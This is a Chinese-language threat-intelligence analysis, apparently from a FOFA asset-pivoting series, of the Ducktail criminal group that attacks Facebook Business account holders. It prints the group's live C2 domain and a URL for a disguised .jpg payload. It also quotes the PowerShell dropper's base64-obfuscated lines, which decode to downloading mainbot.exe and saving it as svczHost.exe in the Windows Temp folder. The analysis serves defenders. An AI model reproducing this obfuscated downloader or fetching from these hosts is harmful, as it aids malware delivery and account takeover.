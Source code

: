 ![1](https://github.com/FofaInfo/Awesome-FOFA/blob/4789cc8a27479fce5a7125b4fc6821b61bf4281e/Storage/ducktail/ducktail%E4%B8%AD%E6%96%87%E5%B0%81%E9%9D%A2.png)

# FOFA资产拓线实战系列：Ducktail犯罪组织

## 概述
Ducktail是一个2021年被发现的网络犯罪组织，具有越南背景。该组织主要针对Facebook企业账号进行攻击，通过伪装成图片、文档等文件的恶意程序，利用鱼叉式攻击方式攻击有权管理Facebook企业账号的个人。一旦获取目标账号权限，他们就会发布广告，损害受害者声誉并获利。

本文通过分析公开的IOC进行分析，并在FOFA拓线的过程中，**不仅仅发现了该组织未被覆盖的资产，还发现了该犯罪组织有对其域名资产进行反复使用的情况，该组织会对其已下线的资产重复启用。**

## 线索分析思路
我们从Yogesh  Londhe分享的IOC中找到了Ducktail的组织信息，其中有两个样本：

![2](https://github.com/FofaInfo/Awesome-FOFA/blob/4789cc8a27479fce5a7125b4fc6821b61bf4281e/Storage/ducktail/ducktail2.png)


利用 VT 进行样本分析,得到回链地址为：gdfsgfdrgetgergdsf[.]tech

![3](https://github.com/FofaInfo/Awesome-FOFA/blob/4789cc8a27479fce5a7125b4fc6821b61bf4281e/Storage/ducktail/ducktail3.png)

下载其中的 jpg 文件，发现该脚本中存在Download-FileWithRetry函数，提供远程文件下载功能，它尝试下载一个文件到指定的目标路径，并在下载失败时会进行重试。

```
https://gdfsgfdrgetgergdsf.tech/file/ps/330d9d3b5819c6c71029767bfb8c0ae1.jpg
```

![4](https://github.com/FofaInfo/Awesome-FOFA/blob/4789cc8a27479fce5a7125b4fc6821b61bf4281e/Storage/ducktail/ducktail4.png)

在该函数的调用过程中分析，里面的远程下载文件的参数为$cnxjunbsg + $egdac。

ownload-FileWithRetry -url ($cnxjunbsg + $egdac) -destination ($lafaelcbl + $yzabgcjvrd);

而具体参数的值为：

```
$cnxjunbsg=[System.Text.Encoding]::ASCII.GetString([System.Convert]::FromBase64String("aHR0cDovL2dkZnNnZmRyZw=="));
$egdac=[System.Text.Encoding]::ASCII.GetString([System.Convert]::FromBase64String("ZXRnZXJnZHNmLnRlY2gvZmlsZS90L21haW5ib3QuZXhl"));
$lafaelcbl=[System.Text.Encoding]::ASCII.GetString([System.Convert]::FromBase64String("QzpcVw=="));
$yzabgcjvrd=[System.Text.Encoding]::ASCII.GetString([System.Convert]::FromBase64String("aW5kb3dzXFRlbXBcc3Zjekhvc3QuZXhl"));
```

对这些base64加密的参数进行解密后，发现具体用途是从该网站上下载exe文件，并且存储到本地。

```
aHR0cDovL2dkZnNnZmRyZw==ZXRnZXJnZHNmLnRlY2gvZmlsZS90L21haW5ib3QuZXhl
解密为http://gdfsgfdrgetgergdsf.tech/file/t/mainbot.exe
```

存储到本地后的文件和路径为：

```
QzpcVw==aW5kb3dzXFRlbXBcc3Zjekhvc3QuZXhl
解密为C:\Windows\Temp\svczHost.exe
```
